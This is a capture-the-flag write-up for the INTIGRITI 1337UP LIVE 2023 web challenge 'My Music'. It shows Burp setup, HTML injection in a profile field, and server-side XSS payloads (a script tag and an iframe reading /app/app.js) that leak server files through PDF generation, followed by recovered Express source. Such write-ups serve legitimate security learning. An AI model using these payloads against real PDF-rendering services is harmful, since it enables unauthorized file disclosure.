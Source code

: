 #web #pdf #xss #lfi #puppeteer #injection #serversidexss
CTF: INTIGRITI 1337UP LIVE 2023
Challenge Name: My Music
Category: Web
Date: 17/11/23
Author: holmesec
Points: 497
Solves: 10
---
[![VIDEO](https://img.youtube.com/vi/JetPydd3ud4/0.jpg)](https://www.youtube.com/watch?v=JetPydd3ud4 "My Music: Leveraging Server Side XSS (PDF) for Auth Bypass")

### Description
>Checkout my new platform for sharing the tunes of your life! 🎶

# Solution
## Enumeration
Register an account, notice we are given a login hash to save, e.g. `25d6a4cec174932f1effd56e2273be5198c3be06ddf03ab380a7ffc4cf3ef4e8`.

We can `generate profile card` which creates a PDF but [by default] the request/response doesn't show in burp, let's make some adjustments:
- Set burp scope to `https://mymusic.ctf.intigriti.io` and tick the `only show in-scope items` option in HTTP history tab (reduces noise, especially from spotify requests).
- Tick `images` and `other binary` in the the `filter by MIME type` section of the HTTP history options (ensuring our PDF generation is shown). 

We can update three sections of our profile; `First name`, `Last name` and `Spotify track code`. For each element we add some HTML tags, e.g. `<b>crypto</b>` and try to generate a new profile card. All three elements are reflected in the PDF document, but only the `Spotify track code` is in bold.

Now we have found HTML injection, we can try and [server-side XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) to identify the file structure.
```js
<script>document.body.append(location.href)</script>
```

Returns `file:///app/tmp/3c433348-60e3-4a48-b989-2a168954147f.html`

Since we confirmed the file location as `/app`, we can enumerate common files, either manually or by brute-forcing a [wordlist](https://github.com/danielmiessler/SecLists).
### app/app.js
```js
<iframe src="/app/app.js" style="width: 999px; height: 999px"></iframe>
```

We'll quickly recover the source code for `app.js`.
```js
const express = require("express");
const { engine } = require("express-handlebars");
const cookieParser = require("cookie-parser");
const { auth } = require("./middleware/auth");
const app = express();
app.engine("handlebars", engine());
app.set("view engine", "handlebars");
app.set("views", "./views");
app.use(express.json());
app.use(cookieParser());
app.use(auth);
app.use("/static", express.static("static"));
app.use("/", require("./routes/index"));
app.use("/api", require("./routes/api"));
app.listen(3000, () => {
    console.log("Listening on port 3000...");
```